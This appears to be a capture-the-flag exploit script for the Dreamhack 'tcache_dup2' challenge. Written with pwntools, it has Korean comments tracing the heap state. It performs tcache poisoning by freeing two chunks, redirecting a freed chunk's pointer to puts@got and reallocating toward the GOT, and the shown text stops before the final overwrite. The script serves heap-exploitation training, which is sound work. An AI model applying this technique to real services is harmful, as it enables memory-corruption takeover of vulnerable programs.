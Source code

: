 # Exploit : `ex-2.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# malloc -> free를 2번 연속으로 해줘서 tc_idx = 2으로 만든 후, tcache_poisoning에서 tc_idx = 0이 되지 않도록 세팅
# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> puts@got
# tc_idx = 2
# chunk : ptr[1]
puts_got = elf.got['puts']
modify(1, 0x10, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
```